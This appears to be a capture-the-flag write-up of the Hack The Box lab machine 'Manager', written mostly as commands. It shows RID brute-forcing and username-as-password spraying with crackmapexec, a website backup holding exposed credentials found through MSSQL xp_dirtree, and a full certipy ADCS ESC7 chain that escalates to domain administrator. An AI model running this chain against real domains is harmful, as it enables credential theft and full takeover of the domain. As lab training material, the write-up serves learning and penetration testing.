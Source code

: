 # Key Take Aways

* RID Bruteforce
* ADCS ESC 7 Priv esc

# NMAP

```
PORT      STATE    SERVICE        REASON
53/tcp    open     domain         syn-ack
80/tcp    open     http           syn-ack
88/tcp    open     kerberos-sec   syn-ack
135/tcp   open     msrpc          syn-ack
139/tcp   open     netbios-ssn    syn-ack
445/tcp   open     microsoft-ds   syn-ack
464/tcp   open     kpasswd5       syn-ack
593/tcp   open     http-rpc-epmap syn-ack
1433/tcp  open     ms-sql-s       syn-ack
5985/tcp  open     wsman          syn-ack
9389/tcp  open     adws           syn-ack
49667/tcp open     unknown        syn-ack
49693/tcp open     unknown        syn-ack
49694/tcp open     unknown        syn-ack
49695/tcp open     unknown        syn-ack
49707/tcp filtered unknown        no-response
49801/tcp open     unknown        syn-ack
```

# RID/User Enumeration

* via Kerbrute

```
./kerbrute userenum --dc 10.129.31.239 -d manager.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

* counter check it wit cmb's ridbrute as well

```
crackmapexec smb $IP -u 'guest' -p '' --rid-brute
```

![image](https://github.com/reneanto/write-ups/assets/44943249/e1bc3864-6395-4b15-a68e-1dab32d28c6e)

# RID Bruteforce

```
crackmapexec smb $IP -u users.txt -p users.txt --shares
```
![image](https://github.com/reneanto/write-ups/assets/44943249/da521856-b195-4939-b8ba-ffe840bd8916)

# MSSQL - UserOwn

* cycle through services previously discovered in nmap scans and get a hit at mssql

```
impacket-mssqlclient -windows-auth manager.htb/operator:operator@manager.htb
```

* xp_cmdshell isn't enabled, nor can be enabled. so we move on with xp_dirtree and dump the webbackup in /inetpub/wwwroot

```
xp_dirtree C:\inetpub\wwwroot\
```

```
wget http://manager.htb/website-backup-27-07-23-old.zip
```

* navigate to .old-conf.xml and locate the exposed credentials of raven and then use evil-winrm to fetch the userflag

# ADCS ESC-7 Privilege Escalation

ADCS - ESC7

```
certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p '' -vulnerable -stdout
```

```
certipy-ad ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -password ''
```

* to check if raven was added to manage certificates group
 
```
certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p '' -vulnerable -stdout
```

```
certipy req -username raven@manager.htb -password '' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
```

```
certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -password ''
```

```
certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p ''
```

```
certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p ''
```

```
sudo ntpdate 10.10.11.236
```

```
 certipy auth -pfx administrator.pfx -dc-ip manager.htb
```

